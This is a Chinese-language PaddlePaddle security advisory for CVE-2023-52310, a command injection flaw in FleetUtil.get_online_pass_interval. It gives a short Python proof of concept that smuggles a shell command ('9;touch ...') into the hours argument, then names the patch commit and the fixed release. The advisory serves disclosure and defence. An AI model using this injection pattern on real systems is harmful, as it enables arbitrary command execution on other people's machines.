 ## PDSA-2023-019: Command injection in get_online_pass_interval

### CVE编号

CVE-2023-52310

### 影响

`get_online_pass_interval`存在命令注入漏洞，可造成任意命令执行，PoC代码如下：

```python
from paddle.incubate.distributed.fleet.fleet_util import FleetUtil

fleet_util = FleetUtil()
online_pass_interval = fleet_util.get_online_pass_interval(
    days="{20190720..20190729}",
    hours="9;touch /home/test/aaaa",
    split_interval=5,
    split_per_pass=2,
    is_data_hourly_placed=False
)
```

### 补丁

我们在commit [1aae481dfd7d2055c801563e254f1484b974b68e](https://github.com/PaddlePaddle/Paddle/pull/60023/commits/1aae481dfd7d2055c801563e254f1484b974b68e)中对此问题进行了补丁。
修复将包含在飞桨2.6.0版本当中。

### 更多信息

请参考我们的[安全指南](../../SECURITY_cn.md)以获得更多关于安全的信息，以及如何与我们联系问题。

### 贡献者

此漏洞由 huntr.com 提交。
